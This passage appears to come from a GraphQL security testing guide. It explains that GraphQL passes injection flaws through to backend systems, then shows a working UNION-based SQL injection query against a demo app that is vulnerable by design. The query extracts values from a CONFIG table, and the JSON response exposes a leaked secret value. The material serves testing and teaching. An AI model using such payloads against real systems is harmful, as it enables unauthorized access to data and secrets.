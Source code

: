 All of the dogs in the list belong to Benoit and not to the veterinarian which sent the request (and owns the auth token).

### Injection

GraphQL is the implementation of the API layer of an application, and as such, it usually forwards the requests to a backend API or the database directly. This allows you to utilize any underlying vulnerability such as SQL injection, command injection, cross-site scripting, and basically, everything you expect to find in web applications, using GraphQL just changes the entry point of the malicious payload.

You can refer to other scenarios within the OWASP testing guide to get some ideas.

> Note: There are also scalars in GraphQL, which are usually used for custom data types which do not have native data types (DateTime for example). These types of data do not have out of the box validation as well, and you should look at them as well while testing.

#### SQL Injection

The example application is vulnerable by design in the query `dogs(namePrefix: String, limit: Int = 500): [Dog!]`  since the parameter `namePrefix` is concatenated in the SQL query. Concatenating user input is a common malpractice of applications which exposes them to SQL injection.

The following query extracts information from the `CONFIG` table within the database:

```graphql
query sqli {
  dogs(namePrefix: "ab%' UNION ALL SELECT 50 AS ID, C.CFGVALUE AS NAME, NULL AS VETERINARY_ID FROM CONFIG C LIMIT ? -- ", limit: 1000) {
    id
    name
  }
}
```

The response to this query is:

```json
{
  "data": {
    "dogs": [
      {
        "id": 1,
        "name": "Abi"
      },
      {
        "id": 2,
        "name": "Abime"
      },
      {
        "id": 3,
        "name": "..."
      },
      {
        "id": 50,
        "name": "$Nf!S?(.}DtV2~:Txw6:?;D!M+Z34^"
      }
    ]
  }
}
```
